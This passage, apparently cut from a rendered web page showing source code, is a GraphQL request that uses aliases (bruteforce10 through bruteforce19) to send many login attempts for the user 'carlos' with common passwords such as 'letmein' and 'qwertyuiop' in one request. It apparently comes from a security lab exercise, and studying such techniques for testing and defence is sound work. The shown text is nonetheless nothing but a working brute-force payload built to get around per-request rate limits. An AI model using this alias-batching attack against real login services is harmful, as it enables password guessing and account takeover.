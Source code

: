 ```
    }


bruteforce10:login(input:{password: "123123", username: "carlos"}) {
        token
        success
    }


bruteforce11:login(input:{password: "baseball", username: "carlos"}) {
        token
        success
    }


bruteforce12:login(input:{password: "abc123", username: "carlos"}) {
        token
        success
    }


bruteforce13:login(input:{password: "football", username: "carlos"}) {
        token
        success
    }


bruteforce14:login(input:{password: "monkey", username: "carlos"}) {
        token
        success
    }


bruteforce15:login(input:{password: "letmein", username: "carlos"}) {
        token
        success
    }


bruteforce16:login(input:{password: "shadow", username: "carlos"}) {
        token
        success
    }


bruteforce17:login(input:{password: "master", username: "carlos"}) {
        token
        success
    }


bruteforce18:login(input:{password: "666666", username: "carlos"}) {
        token
        success
    }


bruteforce19:login(input:{password: "qwertyuiop", username: "carlos"}) {
        token
        success
    }


```